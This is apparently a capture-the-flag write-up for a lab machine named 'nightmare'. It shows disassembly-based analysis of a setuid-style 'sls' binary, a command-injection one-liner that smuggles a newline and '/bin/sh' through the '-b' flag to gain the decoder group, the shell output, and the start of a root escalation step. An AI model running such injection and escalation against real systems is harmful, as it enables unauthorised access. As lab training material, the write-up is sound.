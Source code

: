 ![](https://image.ibb.co/dUQYG8/Untitled_picture.png)

So let's look for that `local_2fh` within the disassembly.
![](https://image.ibb.co/c9UqUT/Untitled_picture.png)
We see a check for it to equal 0 ocurrs.  This occurs after a block which checks for the presence of `0xa` using strchr, which is the character for `\n`.  
![](https://image.ibb.co/nrRyG8/Untitled_picture.png)

The flow of this check can be broken down as follows:

```py
if '\n' in input:
    if local_2fh == 1:
        continue
    else:
        exit
else:
    continue
```

So this implies our input can contain a line feed, as long as the `-b ` flag is set.  So we now have everything we need to achieve command injection.

Now command injection here is simple, but will fail if you don't elevate your shell to a bash tty.  So let's cover our bases and do just that:

```bash
ftpuser@nightmare:/$ /usr/bin/sls -b $'\n/bin/sh'
/usr/bin/sls -b $'\n/bin/sh'
bin   home	      lib32	  media  root  sys  vmlinuz
boot  initrd.img      lib64	  mnt	 run   tmp  vmlinuz.old
dev   initrd.img.old  libx32	  opt	 sbin  usr
etc   lib	      lost+found  proc	 srv   var
$ id
id
uid=1002(ftpuser) gid=1002(ftpuser) egid=1001(decoder) groups=1001(decoder),1002(ftpuser)
```

We now have a way of escalating our groups to decoder.  This isn't the same as full access however, but we can do anything that the decoder group can do.

Root Privilege Escalation
----------------------
Within decoder's home folder we find a folder named test with a group ownership of 'decoder':
```
$ ls -la
ls -la
total 28
drwxr-xr-x  3 root    decoder 4096 Sep 28  2017 .
drwxr-xr-x  3 root    root    4096 Sep 30  2017 ..
-rw-------  1 root    root       0 Sep 13  2017 .bash_history
-rw-r-----  1 decoder decoder  220 Sep  1  2015 .bash_logout
-rw-r-----  1 decoder decoder 3771 Sep  1  2015 .bashrc
-rw-r-----  1 decoder decoder  675 Sep  1  2015 .profile
drwx-wx--x  2 root    decoder 4096 Apr 14 10:58 test
-r--r-----+ 1 decoder decoder   33 Sep 12  2017 user.txt
```
So we can write anything to this folder and we finally have the ability to actually write to the file-system.
